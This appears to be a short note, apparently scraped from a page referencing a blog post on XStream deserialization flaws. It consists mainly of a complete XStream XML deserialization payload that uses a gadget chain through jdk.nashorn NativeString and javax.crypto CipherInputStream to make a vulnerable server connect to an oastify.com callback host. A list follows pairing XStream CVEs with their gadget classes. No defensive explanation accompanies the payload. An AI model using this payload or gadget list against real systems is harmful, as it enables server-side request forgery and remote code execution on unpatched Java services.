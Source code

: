 https://fynch3r.github.io/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E6%A2%B3%E7%90%86/

```xml
<map><entry><jdk.nashorn.internal.objects.NativeString><flags>0</flags><value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"><dataHandler><dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"><is class="javax.crypto.CipherInputStream"><cipher class="javax.crypto.NullCipher"><initialized>false</initialized><opmode>0</opmode><serviceIterator class="javax.imageio.spi.FilterIterator"><iter class="javax.imageio.spi.FilterIterator"><iter class="java.util.Collections$EmptyIterator" /><next class="sun.net.www.protocol.http.HttpURLConnection"><url>http://y76img5zt2wzvdfqvqbjumvs5jbagy5.oastify.com</url></next></iter><filter class="javax.imageio.ImageIO$ContainsFilter"><method><class>sun.net.www.protocol.http.HttpURLConnection</class><name>connect</name><parameter-types /></method><name>asdasd</name></filter><next class="string">asdasd</next></serviceIterator><lock /></cipher><input class="java.lang.ProcessBuilder$NullInputStream" /><ibuffer></ibuffer><done>false</done><ostart>0</ostart><ofinish>0</ofinish><closed>false</closed></is><consumed>false</consumed></dataSource><transferFlavors /></dataHandler><dataLen>0</dataLen></value></jdk.nashorn.internal.objects.NativeString><jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString" /></entry><entry><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /><jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" /></entry></map>
```
CVE-2013-7285  java.beans.EventHandler
CVE-2020-26217/CVE_2020_26259 jdk.nashorn.internal.objects.NativeString
CVE_2021_21344/CVE_2021_21345 sun.awt.datatransfer.DataTransferer$IndexOrderComparator
CVE_2021_21346 sun.swing.SwingLazyValue
CVE_2021_21347/CVE_2021_21350 javafx.collections.ObservableList$1
CVE_2021_21351 javax.naming.ldap.Rdn$RdnEntry
